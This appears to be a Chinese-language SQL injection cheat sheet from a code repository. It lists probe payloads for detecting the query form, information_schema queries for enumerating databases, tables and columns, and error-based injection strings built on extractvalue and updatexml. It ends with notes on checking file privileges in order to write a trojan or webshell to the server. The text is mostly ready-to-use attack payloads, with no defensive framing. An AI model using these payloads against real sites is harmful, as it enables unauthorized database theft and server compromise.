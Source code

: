 ﻿# 有关SQL注入
## 查看开发者使用哪种查询
1. ?id=1'--+
2. ?id=1--+
3. ?id=1')--+
4. ?id=1")--+
5. ?id=1"))-++

## 爆库,表,字段
### 猜数据库 
```sql
select schema_name from information_schema.schemata
```
### 猜某库的数据表
```sql
select table_name from information_schema.tables where table_schema=’xxxxx’ 
```
### 猜某表的所有列 
```sql
Select column_name from information_schema.columns where table_name=’xxxxx’ 
```
### 获取某列的内容 
```sql
Select *** from ****
```
## 基于报错的盲注

#### 基于xpath语法错误

```sql
?id=extractvalue(1,concat(0x7e,(select @@version),0x7e)) --+
?id=updatexml(1,concat(0x7e,(select @@version),0x7e),1) --+
?nid=12' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+ 
//这里的concat的第二个参数就是查询语句
```

### 导入导出（传马）

1. 查看是否有读写权限

   ```sql
   and (select count(*) from mysql.user)>0--+ 
   如果结果返回正常,说明具有读写权限，否则无
   ```

2. 欲读取文件必须在服务器上，加个木马啥的
3. 必须指定文件完整的路径
4. 欲读取文件必须小于 max_allowed_packet